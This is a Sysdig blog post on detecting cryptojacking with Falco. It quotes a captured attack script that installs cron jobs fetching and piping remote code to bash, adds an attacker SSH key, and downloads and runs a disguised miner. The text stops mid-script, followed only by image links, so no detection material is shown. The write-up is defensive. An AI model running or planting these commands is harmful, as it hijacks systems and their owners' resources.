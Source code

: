 ```yaml
---
ID: 6673
post_title: 'Detecting Cryptojacking with Sysdig&#8217;s Falco'
author: Michael Ducy
post_excerpt: ""
layout: post
permalink: >
  https://sysdigrp2rs.wpengine.com/blog/detecting-cryptojacking-with-sysdigs-falco/
published: true
post_date: 2018-03-13 16:48:40
---
```

The latest rage amongst attackers appears to be cryptojacking; rather, exploiting a system, and installing cryptocurrency miners to earn money from the exploited host's CPU power. We've talked about these types of attacks <a href="https://sysdigrp2rs.wpengine.com/blog/detecting-cryptojacking/" target="_blank" rel="noopener">before on the Sysdig blog</a> where we left an unsecured Kubernetes dashboard open to the internet, and captured the attacks with Sysdig Secure. More recently, companies such as <a href="https://www.theverge.com/2018/2/20/17032684/tesla-cloud-hacker-cryptocurrency-redlock" target="_blank" rel="noopener">Tesla have experienced</a> such attacks through publicly exposed Kubernetes dashboards. Our friends at <a href="https://blog.heptio.com/on-securing-the-kubernetes-dashboard-16b09b1b7aca" target="_blank" rel="noopener">Heptio wrote a great tutorial</a> on securing the Kubernetes dashboard, which is definitely the starting point for securing your cluster, but applications can still be exploited to give attackers access to mine cryptocurrency. In this post we'll cover how to use <a href="https://www.sysdigrp2rs.wpengine.com/opensource/falco" target="_blank" rel="noopener">Sysdig's Falco</a> to protect against such cryptojacking attacks.

## The Basics of Cryptojacking {#thebasicsofcryptojacking}

We've seen a couple iterations of attacks focused on cryptojacking, but they all tend to center around getting a system to run a script that then installs itself in the crontab, and tries several methods to download and run a currency mining program. The latest example we happened to see was in a slack channel of a popular open source project. The script that is ran looks something like the snippet below:

    #!/bin/bash
    yum install wget -y
    apt-get install wget -y
    echo "*/5 * * * * curl -fsSL http://<someip>:<port>/mrx | bash" > /var/spool/cron/root
    echo "*/5 * * * * wget -q -O- http://<someip>:<port>/mrx | bash" >> /var/spool/cron/root
    mkdir -p /var/spool/cron/crontabs
    mkdir -p /root/.ssh/
    echo "*/5 * * * * curl -fsSL http://<someip>:<port>/mrx | bash" > /var/spool/cron/crontabs/root
    echo "*/5 * * * * wget -q -O- http://<someip>:<port>/mrx | bash" >> /var/spool/cron/crontabs/root
    echo "ssh-rsa <key> root@host-10-10-10-26" >> /root/.ssh/authorized_keys
    PS2=$(ps aux | grep udevs | grep -v "grep" | wc -l)
    if [ $PS2 -eq 0 ];
    then
    rm -rf /tmp/udevs*
    wget https://<someip>/hHLzX/angular.js --no-check-certificate -O /tmp/udevs
    if [[ $? -ne 0 && $PS2 -eq 0 ]];
    then
    curl -sk https://<someip>/hHLzX/angular.js -o /tmp/udevs
    fi
    chmod +x /tmp/udevs
    chmod 777 /tmp/udevs
    /tmp/udevs -o stratum+tcp://<someip>:3333 -u <userid> -p pass --max-cpu-usage=50 --safe -B
    fi
    if [[ $? -ne 0 && $PS2 -eq 0 ]];
    then
    echo $?

 [1]: https://sysdigrp2rs.wpengine.com/wp-content/uploads/2018/03/safe-request.gif
 [2]: https://sysdigrp2rs.wpengine.com/wp-content/uploads/2018/03/base64_payload.gif
 [3]: https://sysdigrp2rs.wpengine.com/wp-content/uploads/2018/03/ls_exploit.gif
 [4]: https://sysdigrp2rs.wpengine.com/wp-content/uploads/2018/03/exploited_w_miner.gif
 [5]: https://sysdigrp2rs.wpengine.com/wp-content/uploads/2018/03/falco_detecting.gif